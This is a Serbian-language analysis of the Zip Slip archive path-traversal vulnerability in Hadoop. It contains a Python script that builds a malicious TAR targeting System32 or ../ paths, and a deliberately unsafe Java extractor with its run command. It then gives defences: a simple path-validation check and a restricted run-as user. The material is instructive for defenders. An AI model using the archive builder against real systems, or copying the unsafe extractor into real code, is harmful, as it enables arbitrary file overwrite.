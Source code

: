 ## Zip Slip - analiza

Zip Slip je ranjivost koja se ispoljava prilikom obrade arhivskih fajlova, npr. ZIP i TAR. Ova ranjivost omogućava napadačima da iskoriste nebezbednu logiku raspakivanja fajlova kako bi zapisali zlonamerni sadržaj na neautorizovane lokacije u fajl sistemu.

Glavni uzrok ranjivosti leži u tome što aplikacija ne proverava putanje fajlova unutar arhive. Napadači mogu kreirati arhive koje sadrže fajlove sa apsolutnim putanjama (npr. `C:/Windows/System32`) ili relativnim putanjama koje koriste `../` za vraćanje u prethodne direktorijume. Tokom procesa raspakivanja, ako aplikacija slepo veruje ovim putanjama, može se desiti da zlonamerni fajlovi budu upisani van ciljnog direktorijuma, čime se ugrožava bezbednost sistema.

Primeri pajton skripte za kreiranje malicioznog TAR fajla:
```python
import tarfile
import io

def create_malicious_tar(tar_path, target_file_path, content):
    with tarfile.open(tar_path, "w") as tar:
        # Create a file-like object from the content (bytes)
        fileobj = io.BytesIO(content.encode('utf-8'))
        
        # Create the TarInfo object with the path where you want to extract the file
        tarinfo = tarfile.TarInfo(name=target_file_path)
        tarinfo.size = len(content)  # Set the size of the file

        # Add the file to the TAR archive
        tar.addfile(tarinfo, fileobj=fileobj)

    print(f"Malicious TAR created at: {tar_path}")

# Specify where the file should be unpacked
target_file_path = "C:\\Windows\\System32\\malicious.txt"  # Example of absoulute path
# target_file_path = ..\\..\\malicious.txt"  # Example of relative path
# target_file_path = extracted\\malicious.txt"  # Example of safe path

tar_path = "malicious.tar"

# The content of the file to be packed in the TAR file
content = "This is a malicious file that will be unpacked to a specific directory."

# Create the malicious TAR
create_malicious_tar(tar_path, target_file_path, content)
```

Ranjivost se kod Hadoop sistema može eksploatisati tako što se maliciozni TAR fajl prebaci u HDFS i njegovo ekstraktovanje izvrši pomoću Java programa koji nebezbedno rukuje putanjama na koje treba da se ekstraktuje TAR fajl. Takav Java program je dat u nastavku:

```java
import org.apache.commons.compress.archivers.tar.TarArchiveInputStream;
import org.apache.hadoop.fs.FileSystem;
import org.apache.hadoop.fs.Path;
import org.apache.hadoop.conf.Configuration;
import org.apache.hadoop.fs.FSDataInputStream;

import java.io.IOException;
import java.io.InputStream;
import java.io.FileOutputStream;
import java.io.BufferedOutputStream;
import java.io.File;

public class ExploitHadoopTar {

    public static void main(String[] args) throws IOException {
        if (args.length != 1) {
            System.out.println("Usage: HadoopTarExploit <path-to-tar-file>");
            System.exit(1);
        }

        // Get TAR file path from arguments
        String tarFilePath = args[0];

        // Configuration for Hadoop FileSystem (you may need to adjust this based on your Hadoop setup)
        Configuration conf = new Configuration();
        FileSystem fs = FileSystem.get(conf);

        // Open the malicious TAR file from HDFS
        Path hdfsTarFilePath = new Path(tarFilePath);  // HDFS path
        try (FSDataInputStream tarFileStream = fs.open(hdfsTarFilePath);
             TarArchiveInputStream tarInputStream = new TarArchiveInputStream(tarFileStream)) {

            // Iterate over the TAR entries and extract them
            org.apache.commons.compress.archivers.tar.TarArchiveEntry entry;
            while ((entry = tarInputStream.getNextTarEntry()) != null) {
                String entryName = entry.getName();
                System.out.println("Extracting: " + entryName);

                // Create the local extraction file
                File extractionFile = new File(entryName);  // Local path (relative to current directory or absolute path)

                // If the entry is a directory, create the directory on the local filesystem
                if (entry.isDirectory()) {
                    extractionFile.mkdirs();
                    continue;  // Skip to the next entry
                }

                // Ensure the parent directory exists
                File parentDir = extractionFile.getParentFile();
                if (parentDir != null && !parentDir.exists()) {
                    parentDir.mkdirs();
                }

                // Create the output stream to write the extracted file locally
                try (BufferedOutputStream outputStream = new BufferedOutputStream(new FileOutputStream(extractionFile))) {
                    byte[] buffer = new byte[1024];
                    int bytesRead;
                    while ((bytesRead = tarInputStream.read(buffer)) != -1) {
                        outputStream.write(buffer, 0, bytesRead);
                    }
                }

                System.out.println("Extracted to: " + extractionFile.getAbsolutePath());
            }

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
Pokretanjem ovog Java programa doći će do raspakivanja TAR fajla na putanje koje su podešene u TAR fajlu bez ikakve provere validnosti tih putanja. Pokretanje se vrši komandom: `hadoop jar path/to/jar/ExploitHadoopTar.jar ExploitHadoopTar path/to/tar/on/hdfs/malicious.tar`.


### Bezbednosne kontrole

1. Validacija raspakovanih putanja prilikom raspakivanja
2. Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ograničenjima za pisanje i čitanje

#### Validacija raspakovanih putanja prilikom raspakivanja
Validacija putanja se ogleda u proveri da li je putanja apsolutna i da li sadrzi `../` za povratak u roditeljski direktorijum. U nastavku je prikazana funkcija za validaciju i izmenjeni deo koda iz prethodnog primera:
```java
private static boolean isPathValid(String entryName) {
    // Check if the path is absolute
    File entryFile = new File(entryName);
    if (entryFile.isAbsolute()) {
        return false;
    }

    // Check if the path contains '../'
    String normalizedPath = entryFile.getPath().replace("\\", "/"); // Normalize path for cross-platform compatibility
    if (normalizedPath.contains("../")) {
        return false;
    }

    return true;
}

...

// Add check in example code
if (!isPathValid(entryName)) {
    System.out.println("Invalid path: " + entryName);
    continue;
}
```

#### Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ograničenjima za pisanje i čitanje
Rešenja leži u izolaciji aplikacije koja obezbeđuje da ona ima pristup samo onim resursima koji su potrebni za njen rad. Ovaj pristup eliminiše mogućnost neovlašćenog pristupa ili manipulacije fajlovima van predviđenih putanja na sistemu, čime se smanjuje šansa za zloupotrebu.

Prvi korak u implementaciji je kreiranje korisničkog naloga na nivou operativnog sistema koji je specifičan za Hadoop aplikaciju. Ovaj korisnik treba da ima definisana prava pristupa direktorijumima i fajlovima. Prava treba da budu ograničena samo na one direktorijume koji su ključni za funkcionisanje aplikacije. Na primer, čitanje konfiguracionih fajlova i pristupanje HDFS-u. Pristup za čitanje treba omogućiti samo unutar direktorijuma gde je Hadoop instaliran, kako bi se osigurala pravilna konfiguracija i rad. Na ovaj način, čak i u slučaju kompromitovanja aplikacije, napadač neće moći da pristupi sistemskim fajlovima ili podacima van definisanih granica.

Pored čitanja, potrebno je pažljivo definisati i dozvoljene lokacije za upisivanje novih podataka. Ovo je posebno važno u slučaju kada Hadoop aplikacija koristi lokalni fajl sistem za skladištenje rezultata ili privremenih podataka, a ne direktno HDFS. Ovi direktorijumi za upisivanje treba da budu jasno specificirani. Dodeljivanje prava pristupa ovim direktorijumima treba da bude ograničeno na korisnika pod kojim se aplikacija izvršava. Time bi se osigurali da prethodno prikazani TAR fajl ne može biti raspakovan na bilo kojoj putanji, već samo na onim putanjama koje su definisane konfiguracijom korisničkog naloga.

Ukoliko se koristi Hadoop MapReduce sistem, potrebno je definisati direktorijume iz kojih aplikacija može da čita ulazne podatke i u koje može da zapisuje rezultate. Ova ograničenja treba primeniti na svim nivoima aplikacije kako bi se sprečilo namerno čitanje i upisivanje podataka van predviđenih direktorijuma.

Ovakav sistem zaštite zasniva se na postavljanju ograničenja na nivou operativnog sistema. Način implementacije zavisi od operativnog sistema, ali je suština da treba kreirati specifičnog korisnika sa ograničenim pravima pristupa i definisati direktorijume kojima korisnik može da pristupa. Nakon toga, Hadoop aplikacija se pokreće sa dozvolama tog korisnika, što osigurava da aplikacija poštuje postavljena pravila.
